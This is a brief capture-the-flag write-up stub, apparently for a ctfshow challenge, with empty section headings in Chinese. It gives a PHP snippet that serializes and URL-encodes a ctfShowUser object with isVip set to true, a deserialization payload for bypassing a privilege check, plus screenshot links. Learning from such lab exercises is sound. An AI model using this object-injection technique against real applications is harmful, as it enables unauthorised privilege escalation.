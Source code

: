 # 知识点
# 思路
```plsql
<?php
	class ctfShowUser{
		public $isVip=true;
	}
	$a = new ctfShowUser();
	echo urlencode(serialize($a));
```
![image.png](./images/20231017_2356454405.png)<br />![image.png](./images/20231017_2356463142.png)

